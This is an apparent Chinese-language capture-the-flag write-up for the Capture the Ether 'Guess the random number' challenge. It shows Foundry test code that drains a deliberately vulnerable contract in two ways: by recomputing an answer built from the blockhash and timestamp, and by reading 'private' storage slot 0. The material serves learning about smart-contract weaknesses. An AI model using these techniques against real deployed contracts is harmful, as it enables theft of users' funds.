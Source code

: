 # Guess the random number

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/guess-the-random-number/)

原题目要求 GuessTheRandomNumberChallenge 合约的 ether 余额为 0。而调用 guess 并输入答案，如果答案等于 answer 即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Guess_the_random_number -vvv
```

## 功能简述

在 GuessTheRandomNumberChallenge 合约中，设置了一个 secret 变量 answer，并在部署时使用 blockhash，block.timestamp
等初始化：
```solidity
contract GuessTheRandomNumberChallenge {
    uint8 answer;

    constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
    }
    ...
}
```
因此我们有两个思路来完成挑战。

**思路 1**

既然部署时的 block.number, block.timestamp 是可以拿到的，我们可以记录这些值，然后计算出 answer，这就是 testGuessTheRandomNumber1 的解决思路：
```solidity
        // Suppose several blocks have passed
        vm.roll(deployBlockNumber+10);

        uint8 answer = uint8(uint(keccak256(abi.encodePacked(blockhash(deployBlockNumber - 1), deployTime))));
        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(answer);
        vm.stopPrank();
```

**思路 2**

answer 虽然是私有变量，但是我们可以通过 GuessTheRandomNumberChallenge 本地的 storage 布局以及 json-rpc 里面的 [eth_getStorageAt](https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat) 得到答案：

```sh
forge inspect ./src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge storage --pretty
| Name   | Type  | Slot | Offset | Bytes | Contract                                                                                                                |
| ------ | ----- | ---- | ------ | ----- | ----------------------------------------------------------------------------------------------------------------------- |
| answer | uint8 | 0    | 0      | 1     | src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge |
```

可以看出 slot 0 就存储了 answer。在本地测试中，我们使用 foundry 的 cheatcode: `vm.load()` 来代替 `eth_getStorageAt`，这是 testGuessTheRandomNumber2 的思路：

```solidity
        // 获取 slot 0 里面的值，这里就是 answer。
        uint answer = uint(vm.load(address(guessTheRandomNumberChallenge), bytes32(uint(0))));

        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(uint8(answer));
        vm.stopPrank();
```
